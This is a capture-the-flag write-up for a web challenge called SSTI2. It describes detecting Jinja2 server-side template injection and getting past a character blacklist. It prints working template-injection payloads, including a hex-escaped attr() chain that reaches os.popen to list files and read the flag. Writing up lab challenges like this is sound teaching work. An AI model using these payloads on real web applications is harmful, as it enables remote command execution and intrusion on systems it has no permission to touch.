


# SSTI2

# Challenge Name

*Category:* Web

---

# Description
> I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

---

# Attachment

---
# Solution

There was a simple web form that took in user input and displayed it back to the user. I tried {{7*7}} and got 49 back, indicating a Server-Side Template Injection (SSTI) vulnerability.

Using the payload `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`, I got:

which confirmed that some characters are being blacklisted.

After some testing, I found that most special characters are blacklisted.

I found a payload from a [website](https://onsecurity.io/article/server-side-template-injection-with-jinja2/) that includes a payload that bypass the blocks on special characters.

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`

I modified the payload by changing 'id' to 'ls', which listed a flag file.

Then I modified the payload to 'cat flag' and obtained the flag.

